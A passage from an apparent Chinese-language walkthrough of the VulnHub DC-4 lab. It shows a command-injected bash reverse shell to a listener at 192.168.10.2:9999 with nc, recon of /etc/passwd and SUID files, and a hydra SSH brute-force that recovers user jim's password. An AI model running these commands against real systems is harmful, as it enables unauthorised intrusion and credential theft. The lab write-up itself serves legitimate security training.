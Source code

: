 这就表示，其实网站是通过接收这里的`value`值去在其机器中执行相关命令，然后返回数据到网站

那么，就可以通过修改这里的`value`值，来尝试进行一个反弹`shell`

尝试把其中一个选项的`value`修改为下面的代码

```shell
/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.2/9999 0>&1'
```

然后在`kali`中开启监听9999端口

```shell
nc -lvvp 9999
```

这时候，通过执行对应选项，可以看到反弹成功

![](D:\stu\vulnhub\DC靶场\pic-4\11.jpg)



# 提权

查看当前靶机内的用户

```shell
ls -l /home
cat /etc/passwd | grep /bin/bash
```

![](D:\stu\vulnhub\DC靶场\pic-4\12.jpg)

使用`find`寻找具有SUID权限的文件，发现`sudo`，测试`sudo`发现当前不行

```shell
find - perm -4000 -print 2>/dev/null
```

![](D:\stu\vulnhub\DC靶场\pic-4\13.jpg)

## 提权至jim用户

不过看到在`/home/jim`下，有一个SUID权限文件，去查看，发现该脚本虽然具有SUID权限，但是所有者是`jim`，不过在观察时，发现该目录下，有一个备份文件夹，至少名称是这样的，查看该目录下的文件，发现一个密码本

![](D:\stu\vulnhub\DC靶场\pic-4\14.jpg)

既然是在用户`jim`下，就使用这个密码本对其用户进行`ssh`爆破，当然，需要把这个密码本中的内容，复制到`kali`中，过了一会就发现成功获取到一组密码

```shell
hydra -l jim -p pass.txt 192.168.10.11 ssh
```

![](D:\stu\vulnhub\DC靶场\pic-4\15.jpg)

用户名`jim`和密码`jibril04`，尝试登录`ssh`，登录成功
